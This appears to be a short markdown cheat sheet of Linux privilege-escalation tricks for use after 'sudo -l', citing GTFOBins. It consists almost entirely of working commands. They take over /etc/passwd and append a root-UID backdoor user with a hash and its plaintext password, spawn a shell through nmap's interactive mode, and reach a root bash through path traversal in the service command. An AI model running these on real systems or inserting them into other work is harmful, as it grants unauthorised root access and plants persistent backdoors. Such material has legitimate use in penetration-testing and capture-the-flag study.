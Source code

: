 Tricks to play after running sudo -l
https://gtfobins.github.io/

## Chown
```
sudo chown asterisk:asterisk /etc/passwd
echo "flame:sa/zAjIC0QWtk:0:0::/root/:/bin/bash" >> /etc/passwd
su - flame
Password: flamen
```

## nmap
```
sudo nmap --interactive
!sh
```

## service
```
sudo /sbin/service ../../../bin/bash
```
